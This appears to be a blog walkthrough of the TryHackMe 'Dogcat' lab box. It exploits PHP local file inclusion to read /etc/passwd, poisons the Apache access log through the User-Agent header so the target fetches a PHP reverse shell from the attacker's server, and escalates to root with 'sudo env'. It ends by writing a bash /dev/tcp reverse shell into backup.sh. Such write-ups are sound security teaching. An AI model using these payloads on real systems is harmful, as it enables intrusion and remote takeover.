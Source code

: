 ```yaml
---
published: true
title: Dogcat - TryHackMe Walkthrough
category: Writeup
image: 'https://imgur.com/BarfSU7.png'
author: F3dai
---
```

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats! This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/).

**URL:** [dogcat](https://www.tryhackme.com/room/dogcat)

**Difficulty:** Medium

**Author:** jammy

### Enumeration

We are given the IP 10.10.0.15. Run an nmap scan with the following command:

<pre>nmap -p- -A -o portscan 10.10.0.15</pre>

These are the open ports:

<pre>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
</pre>

The usual ports are open - ssh and http.

I'll open up port 80 on my browser:

![port 80](https://imgur.com/P78vvmt.png)

This website has a basic function to display either a dog or a cat depending on the button the user clicks. I'd like to investigate how these images are displayed on the website.

The url changes from ?view=cat to ?view=dog. I remoted the ?view= and appended .php and this was the result: 

<pre>http://10.10.0.15/dog.php</pre>

![dog.php](https://imgur.com/kw2VGiH.png)

I try testing some random inputs out and I get an error message:

![error](https://imgur.com/klKhov0.png)

Therefore, it's safe to say that ?view= run an "include" on the parameter for dog and cat, and **appends .php**. 

Since the input needs "dog" or "cat", I will try using the following url to see if I can view the /etc/passwd file on the system:

<pre>http://10.10.0.15/?view=dog../../../../../etc/passwd</pre>

But the following results show it is still trying to append the .php:

![error php](https://imgur.com/klKhov0.png)

<pre>include(dog../../../../../etc/passwd.php): failed to open stream"</pre>

I am not very familiar with php so I researched if there was a way to include a file without the file extension. The trick is to add "&ext=" at the end of the url. This is the new URL which should also view the /etc/passwd file with no .php file extension:

<pre>10.10.0.15/?view=dog../../../../../etc/passwd&ext=</pre>

![etc passwd](https://imgur.com/PDm0jrF.png)

You can view the page source to find the formatted text:

<pre>!root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin</pre>

Now that we can successfully execute a [local file inclusion](https://owasp.org/www-community/vulnerabilities/PHP_File_Inclusion) vulnerability, we can try to get a reverse shell by **log poisoning**. I have done this on a CTF challenge recently and found this article very useful:

[Log Poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

For more information on Log poisoning, here is an OWASP article:

[OWASP Log Poisoning](https://owasp.org/www-community/attacks/Log_Injection)

Let's try and open the access.log file using this LFI vulnerability.

<pre>http://10.10.0.15/?view=dog../../../../../var/log/apache2/access.log&ext=</pre>

This screenshot shows the page source, you can see the log shows some of the times the dog or cat has been requested:

![log](https://imgur.com/wENytd2.png)

We need to intercept the data to add our own code in the access log. Use burp suite to capture the request:

![burp](https://imgur.com/HhCALR2.png)

The above request was intercepted. The User-Agent field will need to be changed to our php code so it can download our own file. 

Let's firstly create a php reverse shell on our local machine so we can include this file. Kali Linux has a set of pre-made reverse shells. Copy the php reverse shell file to the current directory:

<pre>cp /usr/share/webshells/php/php-reverse-shell.php .</pre>

Change the host and port information in the file:

![edit](https://imgur.com/2Xa0MWp.png)

Now create a simple HTTP server with the following command:

<pre>python -m SimpleHTTPServer 9090</pre>

This will allow us to transfer the file to the victim. 

![http](https://imgur.com/J8rbwd3.png)

Now we can add the following command to our intercepted HTTP request using the php reverse shell we just created:

<pre>&lt;?php file_put_contents('shell.php', file_get_contents('http://192.168.145.4:9090/php-reverse-shell.php'))?&gt;</pre>

<?php file_put_contents('shell.php', file_get_contents('http://192.168.145.4:9090/php-reverse-shell.php'))?>

![burp request modified](https://imgur.com/wYiso6h.png)

For reference, this was the request I was forwarding on burp suite:

<pre>GET /?view=dog../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.235.173
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://10.9.6.63:9090/php-reverse-shell.php'))?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1</pre>

Once this was done, I had a confirmation of a download from the simple HTTP server:

<pre>10.10.235.173 - - [06/Jun/2020 08:15:48] "GET /php-reverse-shell.php HTTP/1.0" 200 -</pre>

When you forward this request, the php code will create a file called "shell.php" which, when visited, will create a connection on port 4444. Let's set up a netcat listener on port 4444:

<pre>netcat -nvlp 4444</pre>

Go to /shell.php or whatever you named the file in php code:

![rev shell](https://imgur.com/WRVfreG.png)

We are logged in as www-data.

## Privilege Escalation

Check the sudo rights:

<pre>sudo -l</pre>

![rights](https://imgur.com/EveIViV.png)

Great, there is a very easy way to exploit the /env.

I find this article very useful when trying to exploit sudo rights:

[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)

<pre>sudo env /bin/bash</pre>

We have root shell. One of the flags is in the /root directory:

![flag](https://imgur.com/vnUkWG6.png)

Another flag is in the /var/www directory:

![flag](https://imgur.com/TQRFtSI.png)

And finally, the other flag is in the actual web directory:

![flag](https://imgur.com/9OaDcef.png)

These flags are presented in reverse order - I usually just own the system.

## Last flag

Finally, I checked the /opt/backups which had a script called backup.sh,.

I added this command to the file:

<pre>echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.9.6.63/5555 0>&1" >> backup.sh</pre>

I set up my netcat listener on 5555

<pre>netcat -nvlp 5555</pre>

Executed the script and got the reverse shell again.

<pre>./backup.sh</pre>

![rev shell](https://i.imgur.com/XEpsJPG.png)

And the final flag:

![final](https://i.imgur.com/YB68YRa.png)

